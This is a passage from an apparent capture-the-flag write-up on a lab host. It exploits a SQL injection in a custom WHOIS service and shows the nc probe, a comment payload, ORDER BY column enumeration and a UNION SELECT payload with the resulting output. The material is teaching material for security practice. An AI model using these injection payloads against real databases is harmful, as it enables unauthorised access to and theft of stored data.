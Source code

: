 It says that the server is called _MariaDB10.1.37_, so it seems to look up the information from a MySQL database.
By sending a single quote to the service, it results in a SQL error:
```
nc 10.10.10.155 43

'test

% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test') limit 1' at line 1
```

This service is vulnerable to a **SQL Injection vulnerability**.

### Exploiting SQL Injection Vulnerability

As far as the error shows, the SQL query looks kind of like this:
```
SELECT * FROM 'test') LIMIT 1
```

By sending a comment after the closing bracket, the `LIMIT` command is removed and there is no error:
```
')-- -
```

Enumerating how many columns are returned:
```
') ORDER BY 1-- -

') ORDER BY 2-- -

') ORDER BY 3-- -
```
```
1054 (42S22): Unknown column '3' in 'order clause'
```

There was an error at column 3, because there are only two columns that can be ordered by, which means that the SQL query looks more like this:
```
SELECT hostname,ip FROM whois WHERE (INJECTED))-- - LIMIT 1
```

Testing for `UNION` command to output data:
```
') UNION SELECT "test1","test2"-- -

% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
test1
```
